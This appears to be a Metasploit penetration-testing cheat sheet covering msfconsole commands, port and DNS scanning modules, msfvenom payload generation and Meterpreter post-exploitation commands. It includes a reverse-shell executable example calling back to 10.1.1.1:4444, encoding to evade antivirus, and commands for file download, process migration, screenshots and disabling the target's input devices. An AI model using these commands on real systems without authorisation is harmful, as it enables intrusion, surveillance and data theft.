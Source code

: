 Metasploit:
Basic Commands:
msf > search [regex]: Search for modules using a regular expression.
msf > use exploit/[ExploitPath]: Select an exploit to use.
msf > set PAYLOAD [PayloadPath]: Choose a payload.
msf > show options: Display options for the current module.
msf > set [Option] [Value]: Configure options.
msf > exploit: Launch the exploit.
Useful Auxiliary Modules:
msf > use auxiliary/scanner/portscan/tcp: Scan TCP ports.
msf > set RHOSTS 10.10.10.0/24: Specify target IP range.
msf > run: Execute the scanner.
msf > use auxiliary/gather/dns_enum: Perform DNS Enumeration.
msf > set DOMAIN target.tgt: Set the target domain.
msf > use auxiliary/server/ftp: Start an FTP server.
msf > set FTPROOT /tmp/ftproot: Define the FTP root directory.
msf > use auxiliary/server/socks4: Launch a SOCKS4 proxy server.
msfvenom:
$ msfvenom -p [PayloadPath] -f [FormatType] LHOST=[LocalHost] LPORT=[LocalPort]: Generate a payload.
Example: Create a reverse Meterpreter payload as an executable.
$ msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=10.1.1.1 LPORT=4444 > met.exe: Specific example.
-f exe: Specifies the format as an executable.
-l payloads: List available payloads.
-e [Encoder] -i [EncodeIterations]: Encode the payload to bypass antivirus detection.
Metasploit Meterpreter Commands:
Base Commands:
? / help: Display command summary.
sysinfo: Show system information.
shutdown / reboot: Reboot or shutdown the target system.
File System Commands:
cd, lcd, pwd / getwd, ls: Directory navigation and listing.
cat: View file contents.
download / upload: Transfer files.
mkdir / rmdir: Manage directories.
Process Commands:
getpid, getuid, ps, kill: Process management.
execute: Execute a program.
migrate: Move to a different process.
Network Commands:
ipconfig: Display network configuration.
route: Manage routing table.
portfwd: Forward traffic via the compromised host.
Misc Commands:
idletime: Check how long the GUI has been idle.
screenshot: Capture a screenshot of the target's screen.
uictl [enable/disable] [keyboard/mouse]: Control the target's input devices.
Advanced Metasploit Commands:
msf > setg [Option] [Value]: Set a global option.
msf > save: Save the current configuration.
msf > spool [file]: Log console output to a file.
msf > load [plugin]: Load a plugin.
msf > back: Move back from the current context.
msf > repeat: Repeat the last module execution.
Managing Sessions:
msf > sessions -l: List all active sessions.
msf > sessions -i [SessionID]: Interact with a specific session.
msf > sessions -k [SessionID]: Kill a specific session.
msf > route add [Subnet] [Netmask] [SessionID]: Route traffic through a session.
This enhanced cheat sheet includes a broader range of commands covering basic operations, advanced configurations, session management, and payload manipulation in Metasploit, offering a comprehensive guide for penetration testing.




